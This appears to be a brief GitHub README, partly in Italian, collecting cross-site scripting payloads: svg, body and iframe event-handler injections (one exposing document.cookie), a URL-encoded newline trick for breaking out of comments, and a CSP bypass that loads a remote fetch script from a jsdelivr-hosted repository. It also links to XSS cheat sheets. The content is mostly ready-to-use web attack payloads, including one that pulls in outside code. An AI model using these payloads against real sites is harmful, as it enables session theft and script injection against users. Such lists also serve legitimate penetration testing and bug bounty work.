 # payload-xss

`<svg/onload=alert('XSS')>`

`<BODY ONLOAD=alert('XSS')>`

`<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>`

<i>%0A newline url encoded per mandare a capo il tuo payload. In caso ci sia un commento // %0Aalert(1) </i></br>
`a%0Aalert('XSS');//`

# bypass csp

<i>script-src https://cdn.jsdelivr.net</i><br>
`<script src="https://cdn.jsdelivr.net/gh/michele0303/payload-xss@main/jsdelivr-fetch.js"></script>`

``

``

``

``

``

``

``

<!-- `` -->


# REFERENCES:
https://xn4k.github.io/pentest/bug%20bounty/ethical%20hacking/XSS-Filter-Evasion-Cheat-Sheet/
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
